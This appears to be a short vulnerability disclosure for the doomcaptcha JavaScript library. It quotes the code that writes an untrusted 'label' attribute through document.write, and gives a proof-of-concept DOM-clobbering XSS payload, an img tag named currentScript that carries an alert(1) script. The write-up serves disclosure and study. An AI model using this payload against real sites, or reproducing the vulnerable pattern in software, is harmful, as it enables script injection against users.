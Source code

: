 ## doomcaptcha

### Meta

+ Library: doomcaptcha
+ Stars: 1K
+ Version: latest
+ Payload: ```<img name="currentScript" label="<script>alert(1)</script>"></img>```
+ Impact: XSS
+ CVE: N/A
+ Status: Reported
+ Foundby: TheHulk

### Library

https://github.com/vivirenremoto/doomcaptcha/blob/main/script.js

### Vulnerable Code Snippet

```javascript
var captcha_label = document.currentScript.getAttribute('label');

var captcha_html = '';
if (captcha_label) {
    captcha_html = '<p>' + captcha_label + '<br>';
}

document.write(captcha_html);
```

## PoC

``` html
<!--Library-->
<form>
<script src=script.js></script>
</form>
<!--Library-->

<!--Payload-->
<img name=currentScript label="<script>alert(1)</script>"></img>
<!--Payload-->
```
